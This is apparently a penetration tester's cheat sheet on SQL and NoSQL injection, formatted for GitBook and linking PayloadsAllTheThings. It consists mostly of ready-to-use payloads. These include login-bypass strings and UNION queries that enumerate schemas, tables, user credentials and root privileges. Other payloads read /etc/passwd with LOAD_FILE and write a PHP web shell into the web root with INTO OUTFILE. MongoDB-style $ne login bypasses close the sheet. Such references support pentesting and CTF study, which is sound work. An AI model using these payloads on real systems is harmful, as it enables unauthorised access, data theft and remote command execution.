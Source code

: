```yaml
---
icon: syringe
---
```


# SQLi

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}
PayloadsAllTheThings
{% endembed %}

## <mark style="color:orange;">`MySQL`</mark>

{% hint style="info" %}
### <mark style="color:green;">`Python`</mark>&#x20;

* <mark style="color:purple;">**Doesn't need**</mark>**&#x20;**<mark style="color:orange;">**`;`**</mark>**&#x20;**<mark style="color:purple;">**at the end.**</mark>

***

### <mark style="color:orange;">`PHP`</mark>&#x20;

### <mark style="color:purple;">Authentication Methods:</mark>

1. <mark style="color:red;">**`Querying for matching username and password`**</mark><mark style="color:purple;">:</mark>
   * <mark style="color:purple;">This method involves running an SQL query that looks for rows where both the</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**username**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">and</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**password (or password hash)**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">match the user's input.</mark>
   * <mark style="color:purple;">If any rows are returned (meaning a match is found), the user is allowed to log in.</mark>
2. <mark style="color:red;">**`Ensuring exactly one result`**</mark><mark style="color:purple;">:</mark>
   * <mark style="color:purple;">The query looks for matching</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**username**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">and</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**password**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">(or hash), but it only allows login if</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**exactly one result**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">is returned.</mark>
3. <mark style="color:red;">**`Querying based on username, then checking the password hash separately`**</mark><mark style="color:purple;">:</mark>
   * <mark style="color:purple;">Query the database based</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**only on the username**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">(without initially checking the password) and retrieving the user's</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**password hash**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">from the database.</mark>
   * <mark style="color:purple;">Once the username is found, the password hash is compared to the one entered by the user.</mark>
{% endhint %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass" %}
Auth Bypass
{% endembed %}

***

{% hint style="info" %}
### <mark style="color:purple;">Recon</mark>

* <mark style="color:purple;">**Always test both**</mark>**&#x20;**<mark style="color:orange;">**`"`**</mark>**&#x20;**<mark style="color:purple;">**and**</mark>**&#x20;**<mark style="color:orange;">**`'`**</mark>&#x20;
* <mark style="color:purple;">Bypass authentication by making the condition always true, followed by a comment to ignore the rest of the query.</mark>

```sql
' or 1=1-- -
```

* <mark style="color:purple;">If the previous query doesn't work try to exploits string comparison without breaking the query structure:</mark>

```sql
" or "1"="1
```

* <mark style="color:purple;">Sometimes the password field may appear before the username. To determine the structure, use brackets:</mark>

```sql
"))-- 
```

{% code title="Test for blind injection" %}
```sql
' OR SLEEP(5) -- 
```
{% endcode %}

### <mark style="color:purple;">Union</mark>

* <mark style="color:purple;">Find the number of columns:</mark>

```sql
' order by 1-- -
```

```sql
' order by 1,2-- -
```

* <mark style="color:purple;">Detect the number of column using</mark> <mark style="color:orange;">**`Union`**</mark><mark style="color:purple;">:</mark>

```sql
' union select 1-- -
```

```sql
' union select 1,2-- -
```

```sql
' union select 1,2,3-- -
```

```sql
' union select 1,2,3,4-- -
```

* <mark style="color:purple;">Once you know the number of columns:</mark>

{% code title="Current database" %}
```sql
' union select 1,2,3,database()--
```
{% endcode %}

{% code title="Database version" %}
```sql
' UNION select 1,@@version,3,4-- -
```
{% endcode %}

{% code title="Current User" %}
```sql
' UNION SELECT 1,user(),3,4-- -
```
{% endcode %}

{% code title="Concatenation" overflow="wrap" %}
```sql
' union select 1,2,3,concat(column1, ':', column2, ':', column3, ':', column4) from user-- -
```
{% endcode %}

#### <mark style="color:orange;">`Information_schema`</mark>

* <mark style="color:purple;">If you want to know how many databases there are:</mark>

{% code title="Information Schema" overflow="wrap" %}
```sql
' union select 1,2,3,concat(schema_name, ':') from information_schema.schemata-- -
```
{% endcode %}

* <mark style="color:purple;">To look how many tables in a database:</mark>

{% code overflow="wrap" %}
```sql
' union select 1,2,3,concat(table_name, ':') from information_schema.tables where table_schema = 'database'-- -
```
{% endcode %}

* <mark style="color:purple;">To look how many columns in a table:</mark>

{% code overflow="wrap" %}
```sql
' union select 1,2,3,concat(column_name, ':') from information_schema.columns where table_name = 'table'-- -
```
{% endcode %}

* <mark style="color:purple;">To look the content of the columns:</mark>

{% code overflow="wrap" %}
```sql
' union select 1,2,3,concat(column1, ':', column2, ':', column3, ':', column4) from user-- -
```
{% endcode %}

### <mark style="color:purple;">Privileges</mark>

{% code title="Checks admin privileges" overflow="wrap" %}
```sql
' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```
{% endcode %}

{% code title=" Extracting privilege details of the root user" overflow="wrap" %}
```sql
' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```
{% endcode %}

{% code title="Find which directories can be accessed" overflow="wrap" %}
```sql
' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
{% endcode %}

### <mark style="color:purple;">File Injection</mark>

{% code title="Read local file" overflow="wrap" %}
```sql
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```
{% endcode %}

{% code title="Write a string to a local file" overflow="wrap" %}
```sql
`select 'file written successfully!' into outfile '/var/www/html/proof.txt
```
{% endcode %}

{% code title="Creates a webshell" overflow="wrap" %}
```sql
' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```
{% endcode %}
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Blind</mark>

* <mark style="color:purple;">Ask questions to application; this query asks if there is any user starting by</mark> <mark style="color:orange;">**`a`**</mark><mark style="color:purple;">:</mark>

```sql
UNION select user,2,3 from mysql.user where user like 'a%'-- -
```
{% endhint %}

***

## <mark style="color:orange;">`NoSQL`</mark>

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-bypass" %}
PayloadAllThings
{% endembed %}

{% hint style="info" %}
### <mark style="color:purple;">Login Bypass</mark>

* <mark style="color:purple;">With</mark> <mark style="color:orange;">**`Content-Type: application/x-www-form-urlencoded`**</mark> <mark style="color:purple;">try:</mark>

```json
user=admin&password[$ne]=wrongpassword
```

* <mark style="color:purple;">Set the</mark> <mark style="color:orange;">**`Content-Type`**</mark> <mark style="color:purple;">to</mark> <mark style="color:orange;">**`application/json`**</mark> <mark style="color:purple;">on the</mark> <mark style="color:orange;">**`POST`**</mark> <mark style="color:purple;">request</mark>

```json
{"user": "admin", "password": {"$ne": "wrongpassword"}}
```
{% endhint %}

